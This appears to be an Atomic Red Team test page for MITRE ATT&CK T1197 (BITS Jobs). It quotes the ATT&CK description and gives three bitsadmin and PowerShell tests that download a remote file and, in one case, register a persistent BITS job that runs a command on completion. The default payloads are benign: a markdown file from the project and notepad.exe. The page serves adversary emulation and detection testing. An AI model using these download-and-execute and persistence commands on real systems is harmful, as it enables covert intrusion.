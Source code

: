 ```yaml
---
title: T1197 - BITS Jobs
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197/)

<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.
<br/><br/>
The interface to create and manage BITS jobs is accessible through <a href="https://attack.mitre.org/techniques/T1086">PowerShell</a>  (Citation: Microsoft BITS) and the <a href="https://attack.mitre.org/software/S0190">BITSAdmin</a> tool. (Citation: Microsoft BITSAdmin)
<br/><br/>
Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)
<br/><br/>
BITS upload functionalities can also be used to perform <a href="https://attack.mitre.org/techniques/T1048">Exfiltration Over Alternative Protocol</a>. (Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)
<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download and execute a payload

**Supported Platforms:** Windows

### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
### Run it with `command_prompt`!

```
bitsadmin.exe  /transfer /Download /priority Foreground #{remote_file} #{local_file}
```
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download and execute a payload leveraging PowerShell

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `powershell` !

```
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transfer
and execute a payload in multiple steps. This job will remain in the BITS queue for 90 days by default if not removed.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|
| command_path | Path of command to execute | path | C:\Windows\system32\notepad.exe|
| command_line | Command line to execute | string | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `command_prompt` !

```
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} #{command_line}
bitsadmin.exe /complete AtomicBITS
bitsadmin.exe /resume #{bits_job_name}
```
<br/>
